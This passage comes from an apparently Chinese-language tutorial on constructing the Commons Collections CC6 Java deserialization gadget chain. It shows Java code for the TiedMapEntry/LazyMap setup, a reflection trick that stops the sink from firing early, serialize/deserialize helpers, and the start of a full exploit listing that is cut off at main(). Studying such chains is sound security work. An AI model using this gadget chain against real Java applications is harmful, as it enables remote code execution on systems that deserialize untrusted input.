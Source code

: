 ```java
        HashMap<TiedMapEntry,Integer> entryMap = new HashMap<TiedMapEntry,Integer>();
        Class<?> clazzTiedMapEntry = tiedMapEntry.getClass();
        Field field = clazzTiedMapEntry.getDeclaredField("map");
        field.setAccessible(true);
        field.set(tiedMapEntry,null);
        entryMap.put(tiedMapEntry, 1);
        field.set(tiedMapEntry,lazyMap);
        serializeObject(entryMap);
        unSerializeObject("ser.bin");
    }

    public static void serializeObject(Object obj) throws Exception {
        ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        outputStream.writeObject(obj);
        outputStream.close();
    }

    public static Object unSerializeObject(String Filename) throws Exception {
        ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream(Filename));
        return inputStream.readObject();
    }
}
```

其中的这几行代码将 tiedMapEntry 中的 key 值改为 null-->

```java
Class<?> clazzTiedMapEntry = tiedMapEntry.getClass();
Field field = clazzTiedMapEntry.getDeclaredField("map");
field.setAccessible(true);
field.set(tiedMapEntry,null);
```

下个断点验证一下-->

![alt text](image-102.png)

那么这样子`entryMap.put(tiedMapEntry, 1);`自然不会触发到 sink，但是这样子代码都无法正常执行了，改一改也简单，就是把`field.set(tiedMapEntry,null);`改成`field.set(tiedMapEntry,new HashMap());`保证是一个 Map 类型即可，此时调试一下，结果如下-->

![alt text](image-103.png)

显然是无法触发到 sink，且代码正常执行。代码走到反序列化的时候，开始走预期的 gadget，这时候再到 TiedMapEntry 类的 getValue 函数，它的 map 已经被改回了 lazyMap，详情如下-->

![alt text](image-104.png)

至此 CC6 完结，完整代码如下-->

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CommonCollections6 {
    public static void main(String[] args) throws Exception {
```